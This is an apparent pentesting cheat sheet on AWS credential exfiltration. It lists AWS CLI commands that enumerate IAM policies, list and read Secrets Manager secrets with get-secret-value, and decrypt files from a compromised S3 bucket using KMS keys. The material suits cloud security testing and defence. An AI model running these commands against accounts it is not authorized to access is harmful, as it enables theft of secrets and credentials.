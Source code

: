 # AWS Secrets Manager Credential Exfiltration

### If the user has access to Secret Manager, it can decrypt the secrets using the web, cli or API

 - aws iam list-attached-user-policies --user-name NAME (Listing policies attached to a user)

## Here we can see the permissions:

 - aws iam get-policy-version --policy-arn ARN --version-id ID (Retrieving information about a specific version of policy)

 - aws secretsmanager list-secrets (Listing secrets stored by Secrets Manager)

## Here we get the secret key ID to describe the secret

 - aws secretsmanager describe-secret --secret-id NAME (Listing information about a specific secret)

 - aws secretsmanager get-resource-policy --secret-id ID (Getting resource-based policy attached to an specific secret)

## Retrieves the actual value:

 - aws secretsmanager get-secret-value --secret-id ID (Getting the secret value)

# Key Management Service (KMS)

### If we compromised as an example an S3 with an encrypted file, we can decrypt it using the keys stored in KMS.

 - aws kms describe-key --key-id ID (Listing a specific key)

## Here we can see who can access the key, the description of it and so on:

 - aws kms list-key-policies --key-id ID (Listing policies attached to a specified key)

## TIP: Run the previous command in all keys to see who can access it

 - aws kms get-key-policy --policy-name NAME --key-id ID (Listing full information about a policy)

## Decrypt the secret using the key

 - aws kms decrypt --ciphertext-blob fileb://EncryptedFile --output text --query plaintext

### There is no need to specify the key information because this information is embbeded in the encrypted file
